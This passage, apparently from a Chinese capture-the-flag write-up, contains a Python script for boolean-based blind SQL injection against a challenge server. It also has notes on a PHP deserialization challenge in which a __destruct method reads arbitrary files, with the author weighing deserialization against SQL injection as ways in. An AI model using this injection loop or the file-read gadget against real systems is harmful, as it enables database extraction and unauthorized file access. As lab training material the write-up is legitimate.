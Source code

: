 ```python
        i=chr(j)
        sql="0 ^ ((select 1,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))"
        sql=sql.replace("POS",str(l))
        sql=sql.replace("GUESS",'0x'+(result+i).encode("hex").upper())
        res=requests.post("http://c957eb4253fb4275856dc45eb06d11ab05103bcf405348ab.changame.ichunqiu.com/index.php",data={"id":sql})
        print(sql)
        if "Hello Nu1L" in res.text:
            result+=chr(ord(i)-1)
            print(result)
            ended=False
            break
    if ended:
        break

```





### babyphp



```
class info:__call 
public function __call($name,$argument){//反序列化
        echo $this->CtrlCase->login($argument[0]);
    }
```

flag在flag.php中

文件读取点:



```php
class User
public function __destruct(){//任意读
        return file_get_contents($this->nickname);//危
    }
```



```php
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
```

现在有两种思路:

1. 反序列化读取文件
2. sql注入拿到管理原密码,来读取文件(x)

无论想干啥都得先登陆,但是不知道咋登陆
